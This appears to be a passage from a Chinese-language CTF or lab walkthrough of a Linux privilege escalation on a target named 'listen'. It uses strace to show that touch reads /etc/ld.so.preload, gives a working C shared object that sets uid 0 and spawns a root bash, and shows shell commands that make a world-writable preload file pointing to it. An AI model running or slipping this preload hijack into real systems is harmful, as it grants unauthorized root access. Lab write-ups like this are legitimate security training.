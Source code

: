 

```shell
> strace touch 2>&1 | grep -Pi "open|access|no such file"
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/usr/lib/locale/locale-archive", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/usr/share/locale/locale.alias", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/usr/share/locale/en_US.UTF-8/LC_MESSAGES/coreutils.mo", O_RDONLY) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/share/locale/en_US.utf8/LC_MESSAGES/coreutils.mo", O_RDONLY) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/share/locale/en_US/LC_MESSAGES/coreutils.mo", O_RDONLY) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/share/locale/en.UTF-8/LC_MESSAGES/coreutils.mo", O_RDONLY) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/share/locale/en.utf8/LC_MESSAGES/coreutils.mo", O_RDONLY) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/share/locale/en/LC_MESSAGES/coreutils.mo", O_RDONLY) = -1 ENOENT (No such file or directory)
```

这个命令的目的是检查`touch`命令在执行过程中是否涉及打开文件、访问文件，或者遇到“文件不存在”（`no such file`）的情况。


看一下靶机上也不存在这个文件
![Pasted image 20250203152350.png](/img/user/picture/Pasted%20image%2020250203152350.png)

现在的思路就是**劫持一个恶意的so进去让它加载**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```shell
gcc -shared -fPIC evil.c -o evil.so -nostartfiles
```

```shell
welcome@listen:/tmp$ ls -al /etc/ld.so.preload
ls: cannot access '/etc/ld.so.preload': No such file or directory
welcome@listen:/tmp$ umask 000
welcome@listen:/tmp$ touch /etc/ld.so.preload
welcome@listen:/tmp$ ls -al  /etc/ld.so.preload
-rw-rw-rw- 1 root root 0 Feb  3 02:37 /etc/ld.so.preload
welcome@listen:/tmp$ echo "/tmp/evil.so" > /etc/ld.so.preload
welcome@listen:/tmp$ cat /etc/ld.so.preload
/tmp/evil.so

```

